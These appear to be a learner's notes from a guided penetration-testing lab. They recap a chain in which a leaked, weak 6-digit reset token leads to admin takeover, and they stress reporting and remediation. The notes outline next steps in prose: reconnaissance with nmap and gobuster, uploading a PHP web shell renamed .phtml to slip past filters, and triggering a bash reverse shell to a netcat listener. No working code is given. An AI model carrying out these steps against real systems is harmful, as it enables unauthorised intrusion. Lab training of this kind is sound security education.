- **Password reset mechanisms deserve careful attention.** They are complex to implement securely, and a single design flaw, like exposing the token in the response, can lead to account takeover.

Password reset mechanisms are very difficult to setup secured properly, and deserve special attention. this specific pentest’s error was exposing the token in the response

- **Think like an attacker, report like a consultant.** Finding the vulnerabilities is half the job. Documenting them clearly with severity ratings and actionable remediation advice is what makes the engagement valuable to the client.

finding vulns and exploits and poppin’ shell and getting Priv Esc, and getting the flag is half 50/50 the job. The other, just as important half of the job is documenting everything. every command. every vulnerability, needs to be explained to the client, explain theseverity of the vulns, and actionable remediation advice, which is telling the client how to fix the problems, and how to set them up to stay not vulnerable in the future. it’s this specific part of the pentest that the client is actually paying for. your job is to give them a report of easy-to-understand, easy-to-implement security setup for their organization.

You have completed the guided pentest. It is time to apply what you have learned to the upcoming challenges.

Mission debrief:

Successfully exploited weak password reset tokens to reset the administrator account. Demonstrated the vulnerability chain from IDOR to account takeover.

Account takeover unlocks admin panel and higher-privilege functionality, proving real-world impact of chained authentication flaws.

Flow:

- Identified admin email via reset requests
- Captured weak 6-digit reset token
- Changed admin password and logged in

Gained access to the administrator dashboard after resetting the admin account password, enabling testing of privileged functionality.

Admin access unlocks sensitive features like file uploads and configuration changes, expanding exploitation potential significantly.

Flow:

- Reset admin password to known value
- Re-authenticate as admin
- Access admin panel interface

You tested login and API discovery early but didn't perform systematic web reconnaissance (nmap, gobuster, curl headers) before moving to password reset. A structured recon phase identifies all attack surfaces first.

Systematic enumeration reveals hidden paths, technologies, and security headers—critical for planning targeted exploits and avoiding missed vectors.

Flow:

- Establish baseline recon (nmap, curl)
- Enumerate web directories and endpoints
- Document findings before exploiting

Action Points

- Perform structured web reconnaissance before targeting
Execute nmap service detection, HTTP header inspection via curl -I, and directory enumeration with gobuster to map the full application surface before attempting exploits.

do full recon before exploits, nmap service, HTTP headers, curl -I, dir enum with gobuster

- Develop file upload and RCE exploitation
Create a PHP web shell (or .phtml variant to bypass filters) and upload it via the admin panel to achieve remote code execution on the server.

create the file upload PHP web shell (.phtml or others), and uploaded with admin, get RCE on server with privileges.

- Establish reverse shell and retrieve flag
Trigger a bash reverse shell payload from the uploaded web shell back to a netcat listener to gain interactive access and read the final flag file.

once the web shell is uploaded, start a listener, and then trigger the base reverse shell payload, connecting to your listener.